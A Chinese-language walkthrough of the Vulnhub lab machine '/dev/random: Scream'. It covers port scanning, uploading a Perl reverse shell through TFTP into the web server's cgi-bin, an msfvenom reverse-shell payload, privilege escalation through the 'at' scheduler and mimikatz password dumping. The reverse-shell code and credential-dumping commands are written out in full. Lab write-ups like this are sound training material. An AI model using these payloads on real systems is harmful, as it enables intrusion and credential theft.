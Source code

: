 ```yaml
---
title: Vulnhub 47 /DEV/RANDOM-SCREAM
date: 2012-11-10
---
```


考点： tfp,perl

靶机链接：<https://www.vulnhub.com/entry/devrandom-scream,47/>
<!--more-->

## 环境配置

| 名称         | IP        |
| ------------ | --------- |
| Kali Linux   | 192.168.88.135 |
| /DEV/RANDOM: SCREAM | 192.168.88.144 |

双击scream.exe，source选择`zh-hans_windows_xp_professional_with_service_pack_3_x86_cd_x14-80404.iso`，然后选择临时文件目录，Product Key使用`BJYHF-8DTK3-HFCFW-K7PR8-XDF6T`

![](https://www.vulnhub.cn/walkthrough/47/1.webp)

点击Generate Image(.ISO)，选择生成镜像文件目录，生成iso文件Scream.iso。

vmware新建windows虚拟机，设置cd/dvd使用ISO镜像文件

![](https://www.vulnhub.cn/walkthrough/47/2.webp)

启动该虚拟机，进入windows xp自动安装，仅需等待，多次重启后，靶机成功启动。

最后到`c:\www\bin\`目录双击`tinyweb_start`

![](https://www.vulnhub.cn/walkthrough/47/3.webp)

## 初步打点

### 端口扫描

```bash
$ export rip=192.168.142.144
$ sudo nmap -v -A $rip
PORT   STATE SERVICE VERSION
21/tcp open  ftp     WAR-FTPD 1.65 (Name Scream XP (SP2) FTP Service)
|_ftp-bounce: bounce working!
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x 1 ftp ftp              0 Feb 09 21:33 bin
| drwxr-xr-x 1 ftp ftp              0 Feb 09 21:33 log
|_drwxr-xr-x 1 ftp ftp              0 Feb 09 21:33 root
22/tcp open  ssh     WeOnlyDo sshd 2.1.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 2c237767d3e0ae2aa801a49e5497db2c (DSA)
|_  1024 fa11a53d63954aae3e16492fbb4bf1de (RSA)
23/tcp open  telnet
| fingerprint-strings: 
|   GenericLines, NCP, RPCCheck, tn3270: 
|     Scream Telnet Service
|     login:
|   GetRequest: 
|     HTTP/1.0
|     Scream Telnet Service
|     login:
|   Help: 
|     HELP
|     Scream Telnet Service
|     login:
|   SIPOptions: 
|     OPTIONS sip:nm SIP/2.0
|     Via: SIP/2.0/TCP nm;branch=foo
|     From: <sip:nm@nm>;tag=root
|     <sip:nm2@nm2>
|     Call-ID: 50000
|     CSeq: 42 OPTIONS
|     Max-Forwards: 70
|     Content-Length: 0
|     Contact: <sip:nm@nm>
|     Accept: application/sdp
|     Scream Telnet Service
|_    login:
80/tcp open  http    Tinyweb httpd 1.93
|_http-title: The Scream - Edvard Munch
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: TinyWeb/1.93
```

### WEB测试

![](https://www.vulnhub.cn/walkthrough/47/4.webp)

google搜索  Tinyweb httpd，找到产品页https://www.ritlabs.com/en/products/tinyweb/features.php

> CGI interface was tested with ActivePerl for NT, which is available at http://www.activestate.com/
>
> CGI application are being executed from `/cgi-bin/` directory only. All files requested from `/cgi-bin/` directory will be treated as CGI and executed, so don't put non-CGI files into `/cgi-bin/` directory.



想办法看看能不能写入到/cgi-bin目录，写入perl脚本反弹shell

### FTP

ftp匿名连接发现只读权限，找到/root目录疑似web目录

### TFTP

登录上传1.txt做测试

![](https://www.vulnhub.cn/walkthrough/47/5.webp)

看到Tinyweb web目录写入1.txt成功。

![](https://www.vulnhub.cn/walkthrough/47/6.webp)




## 获得权限

![](https://www.vulnhub.cn/walkthrough/47/7.webp)

得到perl语言反弹脚本

```bash
perl -e 'use Socket;$i="192.168.88.135";$p=444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

处理一下，靶机不是linux，反弹cmd，而不是/bin/sh

```perl
use Socket;
$i="192.168.88.135";
$p=444;
socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");
open(STDOUT,">&S");
open(STDERR,">&S");
exec("cmd");};
```

![](https://www.vulnhub.cn/walkthrough/47/8.webp)

上传r444.pl

![](https://www.vulnhub.cn/walkthrough/47/9.webp)

![](https://www.vulnhub.cn/walkthrough/47/10.webp)

访问<http://192.168.88.144/cgi-bin/r444.pl>

![](https://www.vulnhub.cn/walkthrough/47/11.webp)



成功接收反弹shell



## 提权

```bash
$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.88.135 LPORT=555 -f exe  -o r555.exe
```

生成反弹shell的exe文件r555.exe，通过tftp上传。

### at

定时任务提权

![](https://www.vulnhub.cn/walkthrough/47/12.webp)

获得管理员权限反弹shell

![](https://www.vulnhub.cn/walkthrough/47/13.webp)

### mimikatz

```cmd
c:\www\root\mimikatz.exe
privilege::debug
sekurlsa::logonpasswords full
```

使用mimikatz获得密码

![](https://www.vulnhub.cn/walkthrough/47/14.webp)
